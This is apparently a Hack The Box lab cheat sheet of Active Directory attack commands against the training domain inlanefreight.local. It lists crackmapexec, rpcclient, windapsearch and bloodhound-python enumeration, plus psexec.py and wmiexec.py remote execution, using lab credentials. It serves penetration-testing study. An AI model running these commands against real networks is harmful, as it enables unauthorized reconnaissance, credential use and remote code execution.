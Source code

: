 #### CME - Domain User Enumeration

```shell
Sauuron@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```


#### CME - Domain Group Enumeration

```shell
Sauuron@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```

#### CME - Logged On Users

```shell
Sauuron@htb[/htb]$ sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```

#### Share Enumeration - Domain Controller

```shell
Sauuron@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```

#### Spider_plus

```shell
Sauuron@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
```

## <span style="color:yellow"> rpcclient Enumeration</span>

#### RPCClient User Enumeration Listing 

```bash
rpcclient $> enumdomusers
```

#### RPCClient User Enumeration By RID

```shell
rpcclient $> queryuser 0x457
```

#### Psexec.py

```bash
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```

#### wmiexec.py

```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

## <span style="color:yellow">Windapsearch</span>

#### Windapsearch - Domain Admins

```shell
Sauuron@htb[/htb]$ python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```

#### Windapsearch - Privileged Users

```shell
Sauuron@htb[/htb]$ python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```


## <span style="color:yellow">Bloodhound.py</span>

```shell
Sauuron@htb[/htb]$ sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all 
```

